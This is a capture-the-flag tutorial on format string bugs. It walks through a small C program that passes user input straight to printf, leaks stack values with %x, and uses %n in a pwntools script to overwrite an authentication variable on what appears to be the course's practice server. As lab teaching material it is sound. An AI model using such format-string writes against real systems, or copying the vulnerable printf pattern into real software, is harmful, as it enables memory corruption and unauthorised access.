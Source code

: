 ```yaml
---
description: Performing arbitrary writes using format strings.
---
```


# format

{% file src="../../.gitbook/assets/format.zip" %}

This is an introduction to the **arbitrary write** of the format string bug. This allows us to write arbitrary values to an address of our choice. We use this to overwrite an authentication variable, which allows us to get the flag.

### Binary Static Analysis

For this binary, we will supply the source code to understand the binary better. This is the binary:

{% code title="findme.c" lineNumbers="true" %}
```c
#include <stdio.h>

int auth = 0;

int main() {
    char password[100];

    puts("Password: ");
    fflush(stdout);
    fgets(password, sizeof password, stdin);

    printf(password);
    printf("Auth is %i\n", auth);

    if(auth == 10) {
        system("cat flag.txt");
    }
}
```
{% endcode %}

In this case, here's what we notice:

* There is a secure `fgets` call that doesn't allow for buffer overflow. This means that we can't just overwrite the `auth` variable (we also know that global variables get loaded into a different memory segment, so buffer overflow doesn't make much sense).
* There is a format string vulnerability where they print our password. This means that we can leak data off the stack.
* Our goal is to modify `auth`, which is a global variable. This is where the _arbitrary write_ comes in. We have a slight advantage that `auth` is global, meaning its address is known at compile time. This means that we can write to it directly.

Let's first see what kind of data we can leak. We'll use a series of `%x` inputs to leak as much data as possible.

```nasm
$ ./format
Password: 
%x %x %x %x %x %x %x %x %x %x %x %x %x %x %x
64 f7e2a620 80491bd 0 1 f7fc1a40 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520
Auth is 0
```

We notice that a series of the same data pattern reappears after a few iterations. A quick observation shows us that:

```nasm
$ python3 -c "print(''.join(hex(ord(x))[2:] for x in '%x '))"
257820
```

This means that this pattern represents our input! Our input starts at the 7th position off the stack. **This is vital info**; we can use this as a baseline for where we are in memory.

### Arbitrary Writes

There is a special format specifier in C that has a particular function: `%n`. `%n` is unlike the other format specifiers in that it _stores_ data, namely **the number of bytes written thus far**. Typically, this is used like below:

```c
int main(void)
{
    int bytes;
    printf("Hello World%n\n", &bytes);
    printf("Bytes written: %d\n", bytes);
}
```

This prints:

```nasm
$ ./test
Hello World
Bytes written: 11
```

How can we exploit this? If we can pass in an address of our choice, we can write a number to that address.

### Getting the Necessary Information

We need three things to perform an arbitrary write:

* The location on the stack of our buffer
* The location of the address we want to write
* The value we want to write

We figured out the first one already! We determined that our input started at the 7th position. Now we need the address of where we want to write. There are two ways to do this:

1. Use the list of global variables in `gdb`: `info variables` (`is` in `radare2`)
2. Use the symbol table, accessible with `readelf -s <binary>`

Either way, we get that `auth` is located at `0x0804c02c`. Finally, we know that we want to write 10 bytes, meaning that before we place the `%n`, we need to write 10 bytes.

Let's put this all together and discuss why this payload works:

```python
payload = p32(0x0804c02c)
payload += b'A' * 6
payload += b'%7$n'
```

We first write the address of `auth` to the stack. Then, we write six more bytes of data to fill the requirement of writing 10 bytes of data. Finally, we write the `%n` specifier, which writes the number of bytes written so far to the address at the 7th position on the stack. This is the address of `auth`, so we write `10` to `auth`!

### Exploiting the Binary

Let's put this all together and get the flag!

{% code title="exploit.py" lineNumbers="true" %}
```python
from pwn import *

elf = context.binary = ELF('./format')
p = remote('vunrotc.cole-ellis.com', 3200)

payload = p32(0x0804c02c)
payload += b'A' * 0x6
payload += b'%7$n'

p.sendline(payload)
p.interactive()
```
{% endcode %}

Running this gives:

```nasm
$ python3 exploit.py
[*] '/home/joybuzzer/Documents/vunrotc/public/03-formats/format/src/format'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to vunrotc.cole-ellis.com on port 3200: Done
[*] Switching to interactive mode
Password: 
flag{maybe_we_need_a_better_dev}
0\xcAAAAAA
Auth is 10
[*] Got EOF while reading in interactive
$ 
[*] Interrupted
[*] Closed connection to vunrotc.cole-ellis.com port 3200
```

We see that `auth` is changed, and the flag is printed!

